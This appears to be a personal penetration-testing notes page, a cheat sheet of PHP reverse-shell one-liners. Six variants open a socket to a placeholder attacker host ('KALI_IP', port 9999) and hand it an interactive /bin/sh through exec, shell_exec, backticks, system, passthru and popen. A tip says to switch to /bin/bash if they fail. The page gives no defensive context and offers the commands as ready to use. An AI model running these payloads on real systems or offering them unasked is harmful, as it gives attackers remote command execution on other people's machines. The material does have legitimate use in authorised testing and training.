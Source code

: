 ```yaml
---
title: 
tags:
---
```

## Command Line

```bash
php -r '$sock=fsockopen("KALI_IP",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

^cba9ae

```bash
php -r '$sock=fsockopen("KALI_IP",9999);shell_exec("/bin/sh <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);`/bin/sh -i <&3 >&3 2>&3`;'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);system("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);passthru("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("KALI_IP",9999);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

>[!tip] 
>If there are issues with these try switching out `/bin/sh` with `/bin/bash`

---
### Supporting Content
